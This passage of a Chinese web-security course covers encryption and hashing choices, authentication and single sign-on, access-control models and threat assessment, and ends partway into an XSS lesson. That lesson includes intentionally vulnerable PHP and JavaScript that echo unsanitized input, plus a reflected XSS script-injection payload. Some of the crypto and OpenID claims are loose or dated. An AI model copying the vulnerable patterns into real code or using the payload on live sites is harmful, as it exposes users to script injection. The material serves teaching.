RSA 的数学难题是：两个大质数 p、q 相乘的结果 n 很容易计算，但是根据 n 去做质因数分解得到 p、q，则需要很大的计算量。RSA 是比较经典的非对称加密算法，它的主要优势就是性能比较快，但想获得较高的加密强度，需要使用很长的密钥。


#### ECC

我们再来看第二种 ECC（椭圆加密算法，Elliptic Curve Cryptography）。

ECC 是基于椭圆曲线的一个数学难题设计的。目前学术界普遍认为，椭圆曲线的难度高于大质数难题，160 位密钥的 ECC 加密强度，相当于 1088 位密钥的 RSA。因此，ECC 是目前国际上加密强度最高的非对称加密算法。


#### 国密 SM2

最后一种是国密 SM2（SM2 Cryptographic Algorithm）。 

国密算法 SM2 也是基于椭圆曲线问题设计的，属于国家标准，算法公开，加密强度和国际标准的 ECC 相当。而国密的优势在于国家的支持和认可。

好了，这 3 种非对称加密算法的优缺点我也总结成了一张表格，你可以看一看。 


我们前面说了，对比于对称加密算法，非对称加密算法最大的优势就是解决密钥分发的问题。因此，现在大部分的认证和签名场景，其实使用的都是非对称加密算法。比如，在SSH 登录、Git 上传等场景中，我们都可以将自己的公钥上传到服务端，然后由客户端保存私钥。

那么，如果你遇到需要使用非对称加密的场景（比如多对一认证），我推荐你使用 ECC 算法。


### 散列算法

散列算法应该是最常见到的密码学算法了。大量的应用都在使用 MD5 或者 SHA 算法计算一个唯一的 id。比如 Git 中的提交记录、文件的完整性校验、各种语言中字典或者 Map 的实现等等。很多场景下，我们使用散列算法并不是为了满足什么加密需求，而是利用它可以对任意长度的输入，计算出一个定长的 id。 

作为密码学的算法，散列算法除了提供唯一的 id，其更大的利用价值还在于它的不可逆性。当用户注册，提交账号密码时，作为一个安全的应用，是绝对不能够存储明文密码的。因此，我们对用户的密码通过散列算法进行计算，存储最终的散列值。

在后续登录的过程中，我们如果计算出的用户提交的密码的散列值和你存储的散列值一致，就可以通过验证了。这样一来，任何人（即使是内部员工）都不知道用户真实的密码是什么，而用户也能够完成密码的校验。

除了刚才说的不可逆性，在密码学上，我们对散列算法的要求还有：鲁棒性（同样的消息生成同样的摘要）、唯一性（不存在两个不同的消息，能生成同样的摘要）。

经典的散列算法包括 MD5、SHA、国密 SM3。下面我们逐一来看。


#### MD5

我们先来看第 1 种，MD5（消息摘要算法，Message-Digest Algorithm 5）。

MD5 可以用来生成一个 128 位的消息摘要，它是目前应用比较普遍的散列算法，具体的应用场景你可以自行参阅。虽然，因为算法的缺陷，它的唯一性已经被破解了，但是大部分场景下，这并不会构成安全问题。但是，如果不是长度受限（32 个字符），我还是不推荐你继续使用 MD5 的。


#### SHA

第 2 种是 SHA（安全散列算法，Secure Hash Algorithm）。

SHA 是美国开发的政府标准散列算法，分为 SHA-1 和 SHA-2 两个版本，SHA-2 细分的版本我们就不介绍了。和 MD5 相同，虽然 SHA 的唯一性也被破解了，但是这也不会构成大的安全问题。目前，SHA-256 普遍被认为是相对安全的散列算法，也是我最推荐你使用的散列算法。


#### 国密 SM3

第 3 种是国密 SM3（SM3 Cryptographic Algorithm）。

国密算法 SM3 是一种散列算法。其属于国家标准，算法公开，加密强度和国际标准的SHA-256 相当。和国密 SM2 一样，它的优势也在于国家的支持和认可。

上述算法的相关对比情况，我也总结了一下，如下表所示： 


#### 盐

另外，我们在使用散列算法的时候，有一点需要注意一下，一定要注意加“盐”。所谓“盐”，就是一串随机的字符，是可以公开的。将用户的密码“盐”进行拼接后，再进行散列计算，这样，即使两个用户设置了相同的密码，也会拥有不同的散列值。同时，黑客往往会提前计算一个彩虹表来提升暴力破解散列值的效率，而我们能够通过加“盐”进行对抗。“盐”值越长，安全性就越高。


### 总结

在这节课中，我对各种加密算法和应用场景进行了全面的介绍。密码学是一门深奥的学科，而作为密码学的使用者，你只需要正确地理解各类算法的特性和功能，就可以满足日常的应用需求了。

总的来说，在使用的时候，你要记住下面这些内容：

- 对称加密具备较高的安全性和性能，要优先考虑。
- 在一对多的场景中（如多人登录服务器），存在密钥分发难题的时候，我们要使用非对称加密；
- 不需要可逆计算的时候（如存储密码），我们就使用散列算法。

在具体算法的选取上，你只需要记住：

- 对称加密用 AES-CTR、
- 非对称加密用 ECC、
- 散列算法用 SHA256 加盐。

这些算法就能够满足大部分的使用场景了，并且在未来很长一段时间内，都可以保持一个较高的安全强度。


### 思考题 

通过今天的学习，相信你已经了解了密码学的各种概念和知识。对于这些加密算法，哪些你比较了解或者使用过呢？可以谈谈你的想法。 


### 课后阅读

更加详细的密码学知识，参见：[CryptographyTools](CryptographyTools.md)


## 身份认证：身份管理

密码学的三种算法：高效安全的对称加密算法，解决密钥分发难题的非对称加密算法，以及提供单向加密的散列算法。

在表达了你对密码学清晰的理解之后，面试官开始相信你具备安全方面的基础知识了。于是，他准备和你探讨一下安全落地的细节。基于你之前提出的“黄金法则”，面试官问道：“黄金法则的认证（Authentication）部分不就是账号密码吗？这么简单的东西，有必要考虑得那么复杂吗？” 

认证，也就是身份识别与认证（通常来说，识别和认证是一体的，因此后面我会用身份认证来指代识别和认证）。毫无疑问，对于一个安全的应用来说，身份认证是第一道门槛，它为后续所有的安全措施提供“身份”这样一个关键信息。

听完你的简单叙述后，面试官直接问道：“现在我们公司有好几个应用，每一个应用都有独立的账号体系，管理起来十分复杂。而且，内部员工的账号体系也没有建设起来。如果是你，你会怎么解决这些问题呢？”

现在你可能很难回答这些问题，没关系，带着这些问题，让我们来学习今天的内容。相信学完之后，再有人问，你都可以对答如流。


### 对外、对内认证

首先，身份认证不仅仅是一个输入账号密码的登录页面而已，应用的各个部分都需要涉及身份认证。在我看来，身份认证可以分为两个部分：**对外认证和对内认证**。

- 对外认证，其实就是应用的登录注册模块，它面向用户进行认证。对外认证的入口比较集中，一个应用通常只有一个登录入口。因此，我们可以在登录这个功能上，实现很多种认证的方式。这就可以用到我们之前提到的“你知道什么、你拥有什么、你是什么”。
- 除了应用本身需要有登录注册的模块，应用的各种内部系统同样需要涉及登录认证的功能，比如：服务器的登录、数据库的登录、Git 的登录、各种内部管理后台的登录等等。这也就是我所说的对内认证。

那么，对内认证和对外认证有什么**区别**呢？我觉得，它们最主要的区别在于认证场景的复杂程度。从下面这张图中我们可以看出，对外认证是单一场景下的认证，对内认证是多场景下的认证。 


在了解了对内、对外认证的特点之后，我们再来聊一聊它们的应用。我了解到的目前行业的现状是，**各个公司的对内认证都比较薄弱**。其主要原因在于，内部的认证场景过于分散，很难进行统一管理。尤其是服务器、数据库等的认证，目前还无法做到统一。因此，对内认证是一个长期治理的过程，需要我们投入较大的精力。

正如我在第一节课中提到的，“面对一个问题时，我们总是很容易发现表面的影响，而忽视其产生的根本原因”，在身份认证这个问题上同样如此。表面上，我们要做好对外认证，防止用户的账号被盗。根本上或者说更普遍的问题是，我们要如何做好对内认证。因此，当你在考虑身份认证的安全问题时，一定要尽可能考虑得更全面。毕竟，对于安全来说，有一个小场景没做到位，很多时候，就意味着什么都没做。


### 无认证、弱密码、认证信息泄漏

接下来，你肯定想问，我们该如何做好身份认证呢？不要着急，我们先来看一下身份认证都会面临哪些威胁。只要我们针对这些威胁找到对应的解决办法，就能做好身份认证了。身份认证面临的威胁主要包括**无认证、弱密码、认证信息泄漏**。接下来，我们一个一个来看。

首先，没有认证环节是所有应用和公司存在的最普遍的问题。尤其是在对内认证的部分，我们经常会看到，很多公司的数据库、接口、管理后台在使用的时候，并不需要经过认证这个环节。 

除了没有认证环节的直接“裸奔”，弱密码也是一个普遍存在的问题。我常常觉得，安全最大的敌人是人类的惰性。设计一个好记的强密码并不是一件简单的事情，这也是弱密码屡禁不止的原因。

说完了无认证和弱密码，接下来我们来聊一聊认证信息泄漏。所谓认证信息泄露，就是指黑客通过各种手段，拿到了用户的密码信息和身份凭证这样的认证信息。常见的手段包括钓鱼、拖库等等。更可怕的是，很多攻击对于用户来说都是**无感知**的。

那么，无感知体现在哪里呢？我们可以来做一个小测试。你可以在 [haveibeenpwned](https://haveibeenpwned.com/) 中，输入自己的账号信息，测试一下它们是否被泄漏了。如果显示“Oh no -powned!”，那就说明你的邮箱密码已经被泄露了，我建议你可以尽快修改你的密码了。 


除了密码的直接泄漏以外，大部分的登录系统都无法应对**重放攻击**。重放攻击简单来说就是，黑客在窃取到身份凭证（如 Cookie、Session ID）之后，就可以在无密码的情况下完成认证了。

总结来说，身份认证面临的威胁其实都是认证信息的泄漏。这其中，既可能是应用本身就没有认证信息或者认证信息强度比较弱，使得黑客可以通过猜测的方式快速获取认证信息；也有可能是黑客通过一些攻击手段（如窃听等），从用户那获取了认证信息，从而冒充用户进行登录。 

而身份认证被破解的后果，相信你也知道一些：一旦黑客仿冒了正常用户进行认证，那么就相当于获得了这个用户的所有权限。更严重的是，所有的后续操作，都会记录到这个正常用户的名下，使得后续应用进行授权和审计的时候，都很难发现黑客本身的存在。


### 技术方案、安全意识

在了解了身份认证环节会面临的各种威胁，以及这些威胁可能产生的影响之后，你可能要问了，我们应该怎么解除这些威胁呢？我觉得，很多时候，我们解决安全问题，不只是在解决一个技术问题，还要**培养外部用户和内部员工的安全意识**。也就是说，认证安全并没有什么完善的技术解决方案，更多的是通过一些规章制度去强化我们的安全意识。

尽管如此，我这里也会去讲一些技术方案，让你知道一些基本的解决方案。

比如，对密码的强度进行限制（如强制使用字母、数字、特殊字符的组合密码，并达到一定长度），强制用户定期修改密码，对关键操作设置**第二密码**（如微信、支付宝的支付密码）等等。

当然，随着互联网的发展，我们也会不断地利用新技术去升级验证手段，帮助用户降低被“攻击”的风险。比如，通过手机验证替代密码验证（因为丢失手机的几率比丢失密码的几率低）；通过人脸、指纹等生物特征替代密码。

除此之外，我们还可以通过加密信道（如 HTTPS）来防止窃听；也可以通过给下发的凭证设置一个有效期，来限制凭证在外暴露的时间，以此来减少重放攻击带来的影响。

这里面有一点你要注意，身份认证的最大的问题还是在于身份管理。随着公司业务的不断扩张，当账号体系变得越来越复杂时，如何对这些账号进行统一的管理，是解决身份认证问题的关键。而单点登录就是一个非常有效的解决方案。


### 单点登录

那么单点登录（Single Sign On，SSO）到底是什么呢？单点登录的概念很简单：用户只需要进行一次认证，就可以访问所有的网页、应用和其他产品了。随着互联网产品形式的不断发展，单点登录的实现方式也经历了多次的升级革新。下面我为你介绍几种典型的单点登录方式，它们分别是：CAS 流程、JWT、OAuth 和 OpenID。 


#### CAS 流程

第一个要讲的是 CAS（Central Authentication Service，集中式认证服务）流程。

CAS 是一个开源的单点登录框架，它不属于某一种单点登录的实现方式，而是提供了一整套完整的落地方案。整体的流程如下图所示，具体步骤我会通过访问极客时间 App 的例子来为你详细讲解。 


1. 假如用户现在要访问某个应用，比如极客时间 App。
2. 应用需要进行认证，但应用本身不具备认证功能。因此，应用将用户重定向至认证中心的页面。比如，你在登录一个应用的时候，它显示你可以选择微信、QQ、微博账号进行登录，你点击微信登录，就跳转至微信的登录页面了。
3. 用户在认证中心页面进行认证操作。如果用户之前已经在其他应用进行过认证了，那么认证中心可以直接识别用户身份，免去用户再次认证的过程。
4. 认证完成后，认证中心将认证的凭据，有时会加上用户的一些信息，一起返回给客户端。也就是你在微信登录完成后，回到了极客时间 App。
5. 客户端将凭据和其他信息发送给应用，也就是说，极客时间 App 将微信的登录凭据发送给了极客时间后端。
6. 应用收到凭据后，可以通过签名的方式，验证凭据的有效性。或者，应用也可以直接和认证中心通信，验证凭据并获取用户信息。这也就是为什么极客时间能够拿到你的微信头像了。 
7. 用户完成认证。 

CAS 的流程非常经典，你现在应该理解了吧？我们后面要讲的 3 种单点登录方式，都和CAS 的流程相似，说它们是 CAS 的“衍生品”也不为过。所以说，你一定要先掌握了CAS 流程，然后再来看下面这 3 种。


#### JWT

JWT（JSON Web Token）是一种非常轻量级的单点登录流程。它会在客户端保存一个凭证信息，之后在你每一次登录的请求中都带上这个凭证，将其作为登录状态的依据。JWT的好处在于，不需要应用服务端去额外维护 Cookie 或者 Session 了。但是，正是因为它将登录状态落到了客户端，所以我们无法进行注销等操作了。


#### OAuth

OAuth（Open Authorization）的主要特点是授权，也是我们通常用 QQ、微信登录其他应用时所采用的协议。通过 OAuth，用户在完成了认证中心的登录之后，应用只能够验证用户确实在第三方登录了。但是，想要维持应用内的登录状态，应用还是得颁发自己的登录凭证。这也就是为什么 QQ 授权后，应用还需要绑定你的手机号码。这也就意味着，应用是基于 QQ 的信息创建了一个自身的账号。 


#### OpenID

OpenID（Open Identity Document）和 OAuth 的功能基本一致。但是，OpenID 不提供授权的功能。最常见的，当我们需要在应用中使用微信支付的时候，应用只需要收集支付相关的信息即可，并不需要获取用户的微信头像。 


#### SSO 的认证体系

在实际情况中，基于各种业务需求的考虑，很多公司都倾向于自己去实现一套 SSO 的认证体系，它的认证流程如下图所示： 


在这个流程中，应用的服务器直接接收用户的认证信息，并转发给认证中心。对用户来说，这个认证中心是完全透明的。但是，这个流程给予了应用过多的信任，从安全性方面考量的话，是不合理的。在这个过程中，应用直接获取到了用户的认证信息，但应用能否保护好这些信息呢？我们并没有有效的办法去做确认。

> 参见：[Equifax Hacker Incident](EquifaxHackerIncident.md) 中，携程的案例，保存了不必要保存的用户数据。

因此，我的建议是，多花一些功夫去接入成熟的单点登录体系，而不是自己去实现一个简化版的。

- JWT 适用范围广，在单点登录的选取上面，如果想要将用户信息做统一管理，选择它最为简单；
- 如果认证中心只是被用来维护账号密码，由业务去维护用户所绑定的其他手机等信息，那么，采用 OAuth 更合适。


### 总结

身份认证的主要场景可以分为：对外认证和对内认证。其中，对内认证往往会因为管理的疏忽，导致很严重的问题。从威胁上来说，无认证和弱密码，是最普遍的安全问题。除此之外，各种密码和认证信息的窃取，也是黑客常用的攻击手段。对于身份认证来说，单点登录 是一种集大成的解决方案。基于 CAS 流程，衍生出了很多成熟的单点登录流程，可以供你去使用。

那么，掌握身份认证的一些技巧，对我们有哪些帮助呢？首先，任何的应用都会存在对内和对外的认证，因此，这将是你提升应用安全水平的一个首要任务。其次，在复杂的应用系统和网络结构中，如何管理身份认证，既优化用户体验，又保证其安全性，对你的设计和管理能力都是一个考验。做好了身份认证，不论是在安全上，还是在个人能力上，你都能够得到极大的提升。


### 思考题

好了，学习了今天的内容，你现在可以来思考一下面试官的问题：怎么做好认证？

这里我先给你提供一个思路。首先，你需要告诉面试官，公司目前存在哪些认证问题。这些认证问题的存在，可能导致哪些严重后果。接下来，就可以设想一下，想要解决这些认证问题，你会设计出怎样的认证体系。 


## 访问控制：授权机制

在上一讲中，我们主要从身份认证的场景和威胁上，对身份认证进行了介绍。同时，身份认证的核心问题是身份管理，因此我们可以采用单点登录的形式，来解决复杂的身份管理问题。常用的单点登录方式包括 CAS 流程、JWT、OAuth 和 OpenID。

那听了你对身份认证的规划之后，面试官觉得很满意，接着又问道：“既然身份认证都做到这么好了，是不是就不需要所谓的‘黄金法则’了？有了身份认证，还需要授权和审计做什么呢？” 

对于这个问题，你肯定要先给出否定的回答，这个很显然。接着，你可以说：“通过身份认证，我们只能够确认用户的身份，而对用户的操作和访问行为的把控，就是授权和审计的任务了。”

接着，面试官又发问了：“我理解身份认证和授权的区别了。目前，我们公司的授权机制比较随意，基本就是有什么需求就做什么。如果是你，你会怎么优化授权机制呢？”

那这一讲中，我们就来介绍几种常见授权机制的概念和原理，以及在实际工作中我们该如何去选取合适的保护机制。这些通用的机制学习起来可能比较抽象，但“磨刀不误砍柴工”，理解了宏观上的知识基础，对我们后续学习各类具体的防御机制会有很大的帮助。

我个人认为，“授权”和“访问控制”其实是同一个概念，都是允许或者禁止某个用户做某件事情。现在行业内普遍用“访问控制”这个术语来讨论相关问题。因此，后续我们都会用“访问控制”来替代“授权”。如果你看到了这两种说法，知道它们是一个意思就可以了。


### 访问控制模型

首先，在探讨访问控制的机制之前，我们先要来了解一下，访问控制的场景是什么。这也是你去理解访问控制机制的一个基础。我把访问控制模型抽象成了下图的模型，你可以看看。具体来说就是，一个主体请求一个客体，这个请求的授权由访问控制来完成。 


如何具体的理解这个模型呢？你可以这样想：在用户去读取文件的过程中，用户是主体，读取这个操作是请求，文件是客体。下面我来详细介绍一下。 

主体：请求的发起者。主体可以是用户，也可以是进程、应用、设备等任何发起访问请求的来源。

客体：请求的接收方，一般是某种资源。比如某个文件、数据库，也可以是进程、设备等接受指令的实体。

请求：主体对客体进行的操作。常规的是读、写和执行，也可以进一步细分为删除、追加等粒度更细的操作。 


### 常见的访问控制机制

访问机制是否对请求进行授权，决定着这个操作能否顺利执行下去。所以，对于我们来说，了解访问机制的规则至关重要。常见的访问控制机制有 4 种：DAC、role-BAC、ruleBAC、MAC。 接下来，我们一一来看。

#### DAC

我们先来第 1 种，DAC（Discretionary Access Control，自主访问控制）。

DAC 就是让客体的所有者来定义访问控制规则。想象一下，你想要从图书馆中拿走一本书。这个时候，管理员说，“你经过这本书的所有人同意了吗？”这个过程就是 DAC。

在 DAC 中，访问控制的规则维护完全下发到了所有者手上，管理员在理论上不需要对访问控制规则进行维护。因此，DAC 具备很高的灵活性，维护成本也很低。相对的，尽管 DAC降低了管理员的工作难度，但是会增加整体访问控制监管的难度，以至于安全性完全取决于所有者的个人安全意识。

这么说来，DAC 的特性其实就是将安全交到了用户手中，因此，DAC 适合在面向用户的时候进行使用。当用户需要掌控自己的资源时，我们通常会采取 DAC，来完成访问控制。比方说，Linux 中采用的就是 DAC，用户可以控制自己的文件能够被谁访问。


#### role-BAC

第 2 种是 role-BAC（role Based Access Control，基于角色的访问控制）。

role-BAC 就是将主体划分为不同的角色，然后对每个角色的权限进行定义。我们还是以图书馆为例。当你想借书的时候，管理员说，“你是学生吗？”这个过程就是 role-BAC。管理员只需要定义好每一个角色所具备的功能权限，然后将用户划分到不同的角色中去，就完成了访问控制配置的过程。

role-BAC 是防止权限泛滥，实现最小特权原则的经典解决方案。试想一下，假如没有角色的概念，那么管理员需要给每一个用户都制定不同的权限方案。当用户的岗位或职责发生变更时，理论上管理员需要对这个用户的权限进行重新分配。但是，准确识别每一个用户需要哪些权限、不需要哪些权限，是一个很有挑战的工作。如果采用了 role-BAC，那么管理员只需要简单地将用户从一个角色转移到另一个角色，就可以完成权限的变更。

因此，role-BAC 更适合在管理员集中管理的时候进行使用。在这种情况下，所有的权限都由管理员进行分配和变更，所以，使用 role-BAC 可以大大降低管理员的工作难度，提高他们的工作效率。同样的原理也适用于应用，应用可以对不同的角色限定不同的操作权限，比如：运维人员给开发、产品、运维划分不同的机器操作权限。

> 回顾：基于用户角色的权限管理系统设计。


####  rule-BAC

第 3 种是 rule-BAC（rule Based Access Control，基于规则的访问控制）。

rule-BAC 就是制定某种规则，将主体、请求和客体的信息结合起来进行判定。在 ruleBAC 的控制机制中，如果想要在图书馆借书，管理员会说，“根据规定，持有阅览证就可以借书。”

相比较来说，DAC 是所有者对客体制定的访问控制策略，role-BAC 是管理员对主体制定的访问控制策略，而 rule-BAC 可以说是针对请求本身制定的访问控制策略。

在 rule-BAC 中，有一点需要我们注意。那就是，我们需要定义是“默认通过”还是“默认拒绝”，即当某次请求没有命中任何一条规则时，我们是应该让它“通过”还是“拒绝”呢？这需要根据安全的需求来进行综合考量。

> 比如，某个服务只提供了 80 和 443 端口的 Web 服务，那么防火墙配置的规则是允许这两个端口的请求通过。对于其他任何请求，因为没有命中规则，所以全部拒绝。这就是“默认拒绝”的策略。很多时候，为了保障更高的可用性，**应用会采取“默认通过”的策略**。

rule-BAC 适合在复杂场景下提供访问控制保护，因此，rule-BAC 相关的设备和技术在安全中最为常见。一个典型的例子就是**防火墙**。防火墙通过将请求的源 IP 和端口、目标 IP 和端口、协议等特征获取到后，根据定义好的规则，来判定是否允许主体访问。比如，限制 22 端口，以拒绝 SSH 的访问。同样地，应用也往往会采取风控系统，对用户异常行为进行判定。


#### MAC

最后一种是 MAC（Mandatory Access Control，强制访问控制）。

MAC 是一种基于安全级别标签的访问控制策略。只看这个定义你可能不太理解，我们还是用图书馆的例子来解释一下，当你在图书馆排队借书的时候，听到管理员说：“初中生不能借阅高中生的书籍。”这就是一种强制访问控制。在互联网中，主体和客体被划分为“秘密、私人、敏感、公开”这四个级别。MAC 要求对所有的主体和客体都打上对应的标签，然后根据标签来制定访问控制规则。

比如：为了**保证机密性**，MAC 不允许低级别的主体读取高级别的客体、不允许高级别的主体写入低级别的客体；为了保证完整性，MAC 不允许高级别的主体读取低级别的客体，不允许低级别的主体写入高级别的客体。这么说有些难以理解，我们可以这样来记：机密性不能低读、高写；完整性不能高读、低写。

MAC 是安全性最高的访问控制策略。但它对实施的要求也很高，需要**对系统中的所有数据都进行标记**。在实际工作中，想要做到这一点并不容易。每一个应用和系统，每时每刻都在不停地生产新的数据，数据也不停地在各个系统之间流转。你需要对这些行为进行全面的把控，才能将标签落地。因此，MAC 仅仅会出现在**政府系统**中，普通公司在没有过多的合规需求下，不会采取 MAC。 


好了，相信你现在已经对 4 种访问控制机制的特点，有了更深刻的理解了。那你可能要问了，在实际工作中，它们是如何应用的呢？在实际的工作中，我们常常需要将它们进行组合使用。比如，在 Linux 中，我们除了对文件进行 DAC 访问控制，也利用了 role-BAC 定义了用户组（group）的概念。这样，管理员就可以将用户分配到不同的组中，DAC 也会按照分组去定义相应的权限了。所以，使用访问控制机制的时候，我们要学会灵活应用。


### 威胁评估的步骤

最后，我想跟你聊一下威胁评估。在前面的课程中，我们描述了如何去衡量安全以及如何去做安全。但是，在安全方案实际落地的过程中，我们首先要考虑的是：目前存在哪些安全威胁。只有明确了这些安全威胁，你才能够成功说服老板和业务人员，去配合你推动安全方案的落地。既然如此，我们首先要做的就是威胁评估，看看哪里有安全威胁。

威胁评估主要有三个步骤：**识别数据、识别攻击、识别漏洞**。

我们先来看一下识别数据。我们知道，安全保护的核心资产就是数据。因此，威胁评估的第一步就是去识别数据。识别数据的最终目的是，当发生攻击，某一份数据的 CIA 受到影响时，会对公司造成多大的损失。这也是我们衡量安全投入高低的一个主要指标。

一般情况下，在识别完数据之后，我们就能推测出黑客会采取哪些方式进行攻击，这也就到了第二个步骤：识别攻击。识别攻击的核心就是，明确什么样的数据有价值被攻击。比如，对于公开的数据，没有被窃取的意义，所以黑客只会通过爬虫来抓站，而不会花费更大的成本去盗号。

在识别了数据和攻击之后，我们就需要根据应用去识别可能的漏洞了。这也就是第三个步骤：识别漏洞。比如，对于 Web 应用，它可能出现诸如 XSS、SQL 注入等 Web 漏洞。关于这一点，业内将常见的攻击和漏洞进行了总结。比如，近两年来由 MITRE 提出的 **ATTACK框架**比较知名。在识别漏洞的时候，我们可以基于这些总结性框架去进行罗列。

> [ATT&CK](https://attack.mitre.org/)是由MITRE机构开发的攻击模型框架，其全称为Adversarial Tactics, Techniques, and Common Knowledge（对抗性战术，技术以及公共知识库），是一个基于现实世界所观察到的攻击向量所组成的一个公开的对抗性战术和技术知识库，其可被用于私营机构、政府部门、网络安全产品和服务社区作为特定威胁模型和方法的开发基础
>
> 官网：https://attack.mitre.org/
>
> ATT&CK框架详解：https://www.freebuf.com/articles/network/254613.html
>
> 知识盒子参考资料：https://zhishihezi.net/b/bd8f04df32a3e24ad21fc720a784d802#start

通过对数据、攻击、漏洞的识别，你就能够知道，公司当前面临了哪些潜在的威胁，从而可以去思考解决方案，并推动它的落地。通常来说，我们需要定期（比如每年）对公司进行一次全面的威胁评估工作，并且随着公司的发展，不断调整安全方案。 


### 总结 

在这一节中，我们主要介绍了 4 种常见的访问控制机制：DAC、role-BAC、rule-BAC 和MAC。它们的特点分别是：自主访问控制、基于角色的访问控制、基于规则的访问控制和基于标签的访问控制。

通过学习它们的特点，我们就能知道它们的使用场景：DAC 适合面向用户；role-BAC 适合集中管理使用；rule-BAC 适合复杂场景；MAC 安全性最高，一般只出现在政府系统中。在实际的工作中，我们往往需要把它们进行组合使用。

在任何的应用中，权限都必然会存在。通过对访问机制的理解学习，会引导你去思考在设计应用的过程中，有哪些点被忽视了。这样在实际的开发工作中，我们就能通过合理的设计，选取合适的访问控制机制，来避免安全问题的产生。

除此之外，我们又介绍了威胁评估。威胁评估的主要思路是，通过识别数据、识别攻击、识别漏洞这三个步骤，来评估公司当前所面临的潜在威胁。只有明确了公司目前存在的安全威胁，你的安全方案才能顺利推进和落地实施。

最后补充一点，黄金法则我们已经讲过认证和授权这两个部分了，审计部分因为没有具体的方法论，主要就是日志记录和分析，我们就不再单独介绍了。这块内容不难，如果感兴趣，你可以自己找一些资料来学习。

讲到这里，关于安全基础的理论知识部分我们就全部讲完了。我把这一模块的重点内容梳理了一个脑图。你可以用它来查漏补缺，也可以自己来梳理看看，加深印象。 


## XSS攻击

在前面的课程中，我们重点讲解了安全的一些基础知识，更多地是从宏观的层面上来谈论安全。但安全不是一个靠宏观指导就能够落地的东西。因此，接下来我会结合真实案例中的各种安全问题，来介绍具体的安全防护手段和工具。今天，我们就先从最基础的 Web 安全开始。

在 Web 安全这个模块中，我们所谈论的 Web，是指**所有基于 HTTP 或者其他超文本传输协议（RPC 等）开发的应用**，包括：网页、App、API 接口等等。这类应用的共同点是：通过 HTTP 等文本协议，在客户端和服务端之间进行数据交换。客户端需要将服务端传出 的数据展示渲染出来，服务端需要将客户端传入的数据进行对应的处理。而 Web 安全所涉及的正是这些应用中存在的各类安全问题。

背景介绍完了，下面我们进入今天的正题。

基于前面安全基础知识的学习，你现在通过了面试官的考核，成功进入了这家公司。某一天，公司的网页应用中发生了一件事。

有很多用户发送了同样类型的内容，而且这些内容都是一个带有诱惑性的问题和一个可以点击的链接。这些用户全部反馈说，这不是他们自己发的。前端开发表示，用户内容都是后端产生的，他不负责。后端开发表示，这些内容都是用户自己提交上来的，他也不负责。正当大家议论纷纷的时候，你作为学习过安全专栏的人，敏锐地发现了问题的原因：这是黑客发起了 XSS 攻击。

这个事情的原型，其实是 **2011 年微博**真实出现的一次安全事件。整个事件的核心问题，其实出在这个可以点击的链接上。在这个事件中，黑客并不需要入侵到微博服务器中，只要用户点击了这个链接，就会“被发送”这样的博文。

这就是著名的 XSS 攻击所能够实现的效果。那么，XSS 攻击究竟是怎么产生的呢？我们究竟该如何防护呢？今天我就带你来了解这个网页中最经典的 XSS 攻击。 


### XSS 攻击是如何产生的

首先，我们来看，XSS 攻击是如何产生的。作为最普遍的网页语言，HTML 非常灵活，你可以在任意时候对 HTML 进行修改。但是，这种灵活性也给了黑客可趁之机：通过给定异常的输入，黑客可以在你的浏览器中，插入一段恶意的 JavaScript 脚本，从而窃取你的隐私信息或者仿冒你进行操作。这就是 XSS 攻击（Cross-Site Scripting，跨站脚本攻击）的原理。

你现在应该对 XSS 有了一个大致的了解，除此之外，你还需要了解三种 XSS 攻击，它们分别是：反射型 XSS、基于 DOM 的 XSS 以及持久型 XSS。下面我们一一来看。


#### 反射型 XSS 

假设现在有一个搜索网页，当你输入任意一个关键词，并点击“搜索”按钮之后，这个网页就会给你展示“你搜索的结果内容是：XXX”。 


我们以 PHP 为例，这个网页的服务端实现逻辑如下所示： 

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<form role="search" action="" method="GET">
    <input type="text" name="search" placeholder=" 请输入要搜索的内容 ">
    <button type="submit"> 搜索</button>
</form>

<?php
    if (isset($_GET['search']) && !empty($_GET['search'])) {
        $search = $_GET['search'];
        echo "<h3> 你搜索的结果内容是：" . $search . "</h3>";
    }
?>
</body>
</html>
```

我们可以看到，这段代码的逻辑是将搜索框输入的内容，拼接成字符串，然后填充到最终的HTML 中。而且这个过程中没有任何的过滤措施，如果黑客想要对这个过程发起攻击，他会输入下面这行代码： 

```html
</h3><script>alert('xss');</script><h3>
```

黑客输入这段字符后，网页会弹出一个告警框（我自己测试的时候，发现部分浏览器，如Safari 不会弹出告警框，这是因为浏览器自身提供了一定的 XSS 保护功能）。 


通过查看网页的源码，可以发现，这中间多了一段 JavaScript 的脚本： 


这就是我们所说的反射型 XSS 攻击的过程。其实它攻击的原理很简单。我们可以总结一下，即通过开头的</h3>和结尾的<h3>，将原本的<h3>标签进行闭合，然后中间通过<script>标签插入 JavaScript 代码并执行，就完成了整个反射型 XSS 的流程。

你可以注意一下浏览器的地址：http://localhost/index.php?search=<%2Fh3><script> alert('xss')%3B<%2Fscript><h3> 。实际上，任何人只要点击了这个链接，就会执行一段黑客定义的 JavaScript 脚本。所以，我们经常说，不要点击任何未知的链接。

反射型 XSS 的总体流程我总结了一下，你可以看下面这张图。黑客诱导你点击了某个链接，这个链接提供的服务，可能就是上述的搜索功能。网页在解析到链接的参数后，执行正常的搜索逻辑，但是因为漏洞，网页中被填入了黑客定义的脚本。使得用户的浏览器，最终执行的是黑客的脚本。 


#### 基于 DOM 的 XSS

在上面的例子中我们可以看到，反射型 XSS 产生在前后端一体的网页应用中，服务端逻辑会改变最终的网页代码。但是，目前更流行的其实是前后端分离，这样网页的代码不会受服务端影响。那么，这样是不是就安全了呢？

显然不是的。尽管服务端无法改变网页代码，但网页本身的 JavaScript 仍然可以改变。而黑客只要利用了这一点，同样能够在网页中插入自己的脚本。这也就是所谓的基于 DOM的 XSS 漏洞。

对于上述搜索功能，通过前后端分离，它的源码就变成了下面这样： 

```html
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<form role="search" action="" method="GET">
    <input type="text" name="search" placeholder=" 请输入要搜索的内容 ">
    <button type="submit"> 搜索</button>
</form>
<script>
    var search = location.search.substring(8);
    document.write('你搜索的结果内容是：' + decodeURIComponent(search));
</script>
</body>
</html>
```

这段代码能够实现和之前的 PHP 代码相同的逻辑：当你在搜索框点击搜索关键词之后，网页会展示你输入的关键词。只不过，HTML 是通过 JavaScript 脚本修改 DOM来实现这个功能的。

